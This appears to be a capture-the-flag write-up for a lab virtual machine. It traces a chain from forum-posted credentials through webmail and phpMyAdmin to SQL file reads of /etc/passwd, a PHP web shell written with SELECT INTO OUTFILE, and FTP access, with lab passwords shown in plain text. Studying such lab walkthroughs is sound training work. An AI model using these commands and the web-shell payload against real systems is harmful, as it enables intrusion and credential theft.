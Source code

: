 

# REPORT

On the port `80` we have a apache2 server serving a single page application. 

On the port `443` we have a apache2 server serving 3 services: 
- `/forum/`, wich is a fourm powered by `mylittleforum`
- `/webmail/` wich is a web mail application powered by `squirrelMail` 
- `/phpmyadmin/` which is `phpmyadmin` pluged to the `mylittleforum` database  


### FORUM

In the `forum` we found an interesting post where credentials are included: `lmezard:!q\]Ej?*5K5cy*AJ` </br>
These credentials allows us to connect to the `forum` as `lmezard`. In the profile settings we get the mail address of the account: `laurie@borntosec.net` </br>

### WEB MAIL

With this address and the password found we can acceed to the account of `laurie` in the web server mail `laurie@borntosec.net:!q\]Ej?*5K5cy*AJ` </br>
A mail from `qudevide` gives us the credentials of `phpmyadmin`: `root:Fg-'kKXBj87E:aJ$` </br>

### PHPMYADMIN

Once connected to the `phpmyadmin` pannel we have access to the database `forum_db` corresponding to the database of the `forum`. 
We get users's informations like:
- Users's mail addresses
- Users's hashed passwords 

...
We can connect to the `admin` account by editing the hashe with the same hash as `lmezard` which is a known password. 
...


In the `phpmyadmin` pannel we can make `SQL queries` as the `mysql` user. 
Allowing us to read and write on the machine like reading the file `/etc/passwd` giving the users on the machine:
```
ft_root:x:1000:1000:ft_root,,,:/home/ft_root:/bin/bash
lmezard:x:1001:1001:laurie,,,:/home/lmezard:/bin/bash
laurie@borntosec.net:x:1002:1002:Laurie,,,:/home/laurie@borntosec.net:/bin/bash
laurie:x:1003:1003:,,,:/home/laurie:/bin/bash
thor:x:1004:1004:,,,:/home/thor:/bin/bash
zaz:x:1005:1005:,,,:/home/zaz:/bin/bash
```
- The apache2's configuration file gives us the location of the directories served by the server: `SELECT LOAD_FILE('/etc/apache2/sites-enabled/000-default')`
```
<VirtualHost *:443>
ServerAdmin webmaster@localhost
...
Alias /phpmyadmin /usr/share/phpmyadmin
...
Alias /forum /var/www/forum
...
Alias /webmail /usr/share/squirrelmail
...
```

### WEB SHELL (/forum)

Because the `mysql` user writing's permission are limited. We `fuzz` on the `/forum` directory to find directories where we can write a `web shell` in `php`:
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://192.168.56.112/forum/FUZZ -fs 288
...
templates_c             [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 4ms]
:: Progress: [220559/220559] :: Job [1/1] :: 10000 req/sec :: Duration: [0:00:32] :: Errors: 0 ::
```

We can create files on the directory `/forum/templates_c/` with the SQL Query: 
```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/script.php'
...
https://192.168.56.112/forum/templates_c/script.php?cmd=whoami
```

In the `/home` directory we found the folder `LOOKATME` containing the file `password`:
```
https://192.168.56.112/forum/templates_c/script.php?cmd=cat%20/home/LOOKATME/password
...
lmezard:G!@M6f4Eatau{sF" 
```

### FTP

The credentials are for the ftp account of `lmezard`. After accessing connecting to it we found 2 files:
```
ftp> dir
229 Entering Extended Passive Mode (|||26935|).
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun

$ cat README 
Complete this little challenge and use the result as password for user 'laurie' to login in ssh

$ file fun          
fun: POSIX tar archive (GNU)
```


`sha256('Iheartpwnage') = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4` 